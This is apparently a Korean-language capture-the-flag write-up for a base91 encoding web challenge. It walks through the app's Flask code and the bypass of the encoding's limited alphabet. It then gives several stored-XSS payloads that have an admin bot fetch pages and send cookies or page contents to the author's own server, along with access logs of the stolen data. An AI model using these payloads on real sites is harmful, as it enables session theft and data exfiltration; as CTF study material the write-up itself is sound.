

# write-up
     
## app.py
```python
def init_db():
    db, cur = get_cursor()
    cur.execute("CREATE TABLE IF NOT EXISTS accounts (id INTEGER PRIMARY KEY AUTOINCREMENT, username TEXT NOT NULL UNIQUE, password TEXT NOT NULL, admin INTEGER)")
    cur.execute("INSERT INTO accounts (username, password, admin) VALUES ('admin', ?, 1)", [admin_password])

    cur.execute("CREATE TABLE IF NOT EXISTS encodings (id TEXT NOT NULL UNIQUE, text TEXT NOT NULL, creator, expires INTEGER DEFAULT 0)")
    cur.execute("INSERT INTO encodings (id, text, creator, expires) VALUES (?, ?, 'admin', 0)", [secrets.token_hex(20), FLAG])
    db.commit()
    db.close()
```
    
accounts 테이블에 admin 계정을 생성하고, encodings 테이블에 20자리 16진수 랜덤 값과 text 컬럼에 FLAG를 넣어준다.

```python
def create_encoding(username, text):
    db, cursor = get_cursor()
    id_val = secrets.token_hex(20)
    expires = int(time.time()) + 60 * 60
    # text field includes flag
    cursor.execute("INSERT INTO encodings (id, text, creator, expires) VALUES (?, ?, ?, ?)", [id_val, text, username, expires])
    db.commit()
    return id_val

@app.route("/create", methods=["GET", "POST"])
def create():
    if not session:
        flash("Please log in")
        return redirect("/login")
    if request.method == "GET":
        return render_template("create.html", logged_out=False)
    elif request.method == "POST":
        if not request.form["text"]:
            return "Missing text"
        text = request.form["text"]
        if len(text) > 1000:
            flash("Too long!")
            return redirect("/create")
        encoded = based91.encode(text.encode() if not (re.match(r"^[a-f0-9]+$", text) and len(text) % 2 == 0) else bytes.fromhex(text))
        # insert encoding text in db
        encoding_id = create_encoding(session["username"], encoded)
        
        return redirect(f"/e/{encoding_id}")
```

/create는 based91.encode()를 호출하여 인코딩을 진행하고 인코딩 값을 create_encoding()에 세션 값과 함께 넘긴다. encodings 테이블에 데이터를 삽입하고 /e/{encoding_id} 경로로 redirect 시킨다. 

```python

@app.route("/e/<encoding_id>")
def getEncoding(encoding_id):
    logged_out = session.get("username", None) is None
    encoding = get_encoding(encoding_id)
    return render_template("view_encoding.html", encoding=encoding, logged_out=logged_out)

def get_encodings(username):
    db, cursor = get_cursor()
    cursor.execute("SELECT id, text, expires FROM encodings WHERE creator = ?", [username])
    rows = cursor.fetchall()
    for i, row in enumerate(rows):
        if row[2] > 0 and row[2] < int(time.time()):
            cursor.execute("DELETE FROM encodings WHERE id = ?", [row[0]])
            db.commit()
            rows[i] = None
    return [row for row in rows if row is not None]

@app.route("/")
def mainRoute():
    if not session:
        return redirect("/login")
    encodings = get_encodings(session["username"])
    return render_template("index.html", encodings=encodings, logged_out=False)   
```
   
메인 페이지에서 get_encodings()를 호출하여 생성된 인코딩 값들을 가져와서 뿌려준다. /e/{encoding_id} 경로로 접근하면, 인코딩된 값을 view_encoding.html에 표시해준다.    
      
랜덤으로 생성된 id 값을 알아내야 text에 접근할 수 있기 때문에 FLAG를 얻기 위해서는 init_db()가 실행될 때 encodings 테이블에 생성된 id 값을 알아내야한다. 

```python
@app.route("/report", methods=["GET", "POST"])
def report():
    if not session:
        flash("Please log in")
        return redirect("/login")
    if request.method == "GET":
        return render_template("report.html", logged_out=False)

    value = request.form.get("id")

    if not value or not re.match(r"^[a-f0-9]{40}$", value):
        flash("invalid value!")
        return render_template("report.html", logged_out=False)
    subprocess.Popen(["timeout", "-k" "15", "15", "node", "adminbot.js", base_url, admin_password, value], shell=False)
    flash("An admin going there.")
    return render_template("report.html", logged_out=False)
```
    
/report 경로로 가면, 프로세스를 생성하여 adminbot.js를 실행하여 /e/{encoding_id} 경로에 접근한다. <strong>XSS를 통해 adminbot이 FLAG가 저장된 id 값을 읽고 location.href로 id 값을 넘기면 될 것 같다.</strong>

```python
@app.after_request
def add_header(response):
    response.headers["Content-Security-Policy"] = "script-src 'unsafe-inline';"
    return response
```
CSP 또한 `<script>`를 사용할 수 있도록 되어있어 XSS 공격을 수행해주면 될 것 같다.   

인코딩 결과 값이 스크립트 구문이어야 하기 때문에 `<script>~~</script>`를 디코딩한 결과 값을 입력으로 주면 스크립트를 작성할 수 있다. 

```python
base91_alphabet = ['A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M',
	'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z',
	'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm',
	'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z',
	'0', '1', '2', '3', '4', '5', '6', '7', '8', '9', '!', '#', '$',
	'%', '€', '(', ')', '*', '+', ',', '°', '/', ':', ';', '<', '=',
	'>', '?', '@', '[', ']', '^', '_', '`', '{', '|', '}', '~', '"']

decode_table = dict((v,k) for k,v in enumerate(base91_alphabet))

def decode(encoded_str):
    ''' Decode Base91 string to a bytearray '''
    v = -1
    b = 0
    n = 0
    out = bytearray()
    for strletter in encoded_str:
        if not strletter in decode_table:
            print(strletter)
            continue
        c = decode_table[strletter]
        if(v < 0):
            v = c
        else:
            v += c*91
            b |= v << n
            n += 13 if (v & 8191)>88 else 14
            while True:
                out += struct.pack('B', b&255)
                b >>= 8
                n -= 8
                if not n>7:
                    break
            v = -1
    if v+1:
        out += struct.pack('B', (b | v << n) & 255 )
    return out
```
         
`based91.py` 파일에 decode() 함수가 있기 때문에 이를 활용하면 될 것 같다.    
      
또한, alphabet 테이블을 보면 지원하는 문자들이 한정되어 있는 것을 볼 수 있다.     
     
가장 큰 걸림돌은 .(dot)을 사용하지 못한다는 점이었다. Webhook을 지원하는 사이트들의 도메인에 .(dot)이 포함된 경우가 대다수였기에 개인 웹 서버를 필요했다.     
     
AWS EC2 서버를 하나 파서 http://3.35.8.40/?d=hello 이와 같이 입력 받을 수 있는 환경을 구축해주었다.     
     
다음으로, XSS Payload를 작성하는데 삽질을 많이 했다.    
    
`<script>location.href='http://{ip}/?d='+document["cookie"]</script>//`

admin 세션 탈취를 시도해보았지만, httpOnly로 설정되어있어서 탈취할 수 없었다.

그래서, 다음 방법인 "/" 경로에 admin 계정의 /e/{id} 값을 탈취하는 것이었다.
     
/report를 수행하면, adminbot은 https://based.skin/e/{id} 경로를 방문하는데 id 값은 https://based.skin/ 경로에 있기에 fetch(), XMLHttpRequest() 등을 활용하여 Payload를 작성하기로 방향을 잡았다.     
    
`</h2><script>var/**/test="";fetch("/")["then"](response=>response["text"]())["then"](text=>{test=text;});window["location"]["href"]="http://52627496/?d="+test</script>`
     
fetch("/") 이후 HTML 결과를 test 변수에 넣어 location.href를 수행하도록 시도했는데 console에서는 잘 되는데 실제로 입력 값으로 줬을 때, fetch() 시점과 location.href가 실행되는 시점이 달라서인지 실행이 되지 않았다.     

`</h2><script>fetch("/")["then"](response=>response["text"]())["then"](text=>{window["location"]["href"]="http://52627496/?d="+text;});</script>////`
     
그래서, fetch() 안에서 location.href가 실행되도록 했는데 text 값이 넘어오지 않아서 데이터 크기 때문인가 싶어서 일부만 전달하도록 구현해보았다.
     
`</h2><script>fetch("/")["then"](response=>response["text"]())["then"](text=>{window["location"]["href"]="http://52627496/?d="+text["substring"](50,52);});</script>////`
    
text.substring을 활용하여 데이터의 일부를 전달하니 잘 전달되는 것을 확인할 수 있었다.

`</h2><script>fetch("/")["then"](response=>response["text"]())["then"](text=>{var/**/l=text["search"]("/e/");window["location"]["href"]="http://52627496/?d="+text["substring"](l,l+50);});</script>////`   
    
추가적으로, text.search를 활용하여 /e/ 문자열의 index를 찾고 뒤에 부분을 가져오도록 했다.    
     
```bash
31.22.123.45 - - [15/Oct/2023:06:25:23 +0000] "GET /?d=f- HTTP/1.1" 200 205 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/117.0.5938.62 Safari/537.36"

31.22.123.45 - - [15/Oct/2023:06:37:15 +0000] "GET /?d=/e/98def9f5621fc998b913aea476639ebd1a862c43%22%3E98def HTTP/1.1" 200 254 "-" "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) HeadlessChrome/117.0.5938.62 Safari/537.36"
```     
      
개인 서버의 access.log 내용을 보면, 값이 잘 넘어오는 것을 볼 수 있다. 31.22.123.45 (adminbot)이 방문한 로그이다. 이제 `/e/98def9f5621fc998b913aea476639ebd1a862c43%22%3E98def`에 접근해주면 값을 얻을 수 있다.    
    
`</h2><script>fetch("/e/98def9f5621fc998b913aea476639ebd1a862c43")["then"](response=>response["text"]())["then"](text=>{var/**/l=text["search"]("subtitle");window["location"]["href"]="http://52627496/?d="+text["substring"](l,l+50);});</script>////`

Payload를 조금 수정하여 전달해주면 아래와 같이 플래그를 획득할 수 있다.    
      
   
    